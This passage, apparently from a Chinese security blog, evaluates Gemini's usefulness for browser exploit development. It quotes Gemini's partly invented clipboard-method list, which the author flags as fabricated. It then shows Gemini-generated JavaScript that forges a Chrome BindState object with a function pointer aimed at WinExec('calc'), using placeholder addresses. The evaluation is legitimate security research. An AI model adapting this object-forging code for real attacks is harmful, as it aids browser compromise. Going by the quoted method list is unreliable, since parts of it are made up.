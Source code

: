 ### 1. `writeHTML`
这个方法允许你将 HTML 数据写入剪贴板，可以用来传输大量的 HTML 字符串。

### 2. `writeRTF`
这个方法允许你将 RTF (Rich Text Format) 数据写入剪贴板，可以用来传输大量的 RTF 字符串。

### 3. `writeBookmark`
这个方法允许你将书签数据写入剪贴板，包括标题和 URL。

### 4. `writeSmartPasteMarker`
这个方法允许你将智能粘贴标记写入剪贴板。

...

---


然而这里面有部分内容属于胡编乱造，比如writeRTF这个方法根本就不存在，总体的帮助也很有限。

至此，我们已经可以得出，对于漏洞利用中某些特定的对象搜寻、判断的过程，当前的大模型训练数据、上下文窗口等存在限制，没有能力对特定目标有足够的了解，从而难以在某些极为细节的漏洞利用环节派上用场。因此再继续追问其漏洞具体的破坏效果如何分析，Gemini也很难给出有价值的帮助。

那么换个思路，给大模型不需要过多的前置知识的任务也许他会做得更好？

我们尝试让Gemini伪造浏览器利用中常用的`BindState`对象，仅需发送该对象的定义和简单的提示要求即可生成基本可用的结果：

---

```javascript
const buffer = new ArrayBuffer(totalSize);

// 获取 DataView 以便于操作不同数据类型
const view = new DataView(buffer);

// 假设 ref_count_ 偏移量为 0
// polymorphic_invoke_ 偏移量为 8
// destructor_ 偏移量为 16
// query_cancellation_traits_ 偏移量为 24

// polymorphic_invoke_ 应该指向一个执行 WinExec("calc", 5) 的函数
// 在这里，我们用一个占位符表示，实际需要将其替换为对应的函数指针
const winExecFuncPtr = 0x12345678n; // 替换为实际的函数指针, 使用BigInt

// destructor_ 可以暂时设置为一个空函数或者一个安全的销毁函数
const destructorPtr = 0x87654321n; // 替换为实际的函数指针, 使用BigInt

// query_cancellation_traits_ 可以设置为总是返回 true 的函数
const queryCancellationTraitsPtr = 0xabcdef01n; // 替换为实际的函数指针, 使用BigInt

// 将数据写入 ArrayBuffer, 使用 BigUint64 来处理64位数据
view.setBigUint64(0, 1n, true); // ref_count_ 初始化为 1
view.setBigUint64(8, winExecFuncPtr, true); // little-endian
view.setBigUint64(16, destructorPtr, true);
view.setBigUint64(24, queryCancellationTraitsPtr, true);

// 假设 BindStateBase 对象从偏移量 x 开始
const x = 0; // 假设从头开始

// 获取指向 BindStateBase 对象的指针
const bindStatePtr = buffer.byteOffset + x;

// 创建一个 TypedArray 来模拟 C++ 对象访问, 使用 BigUint64Array
const bindStateView = new BigUint64Array(buffer, bindStatePtr);
```

---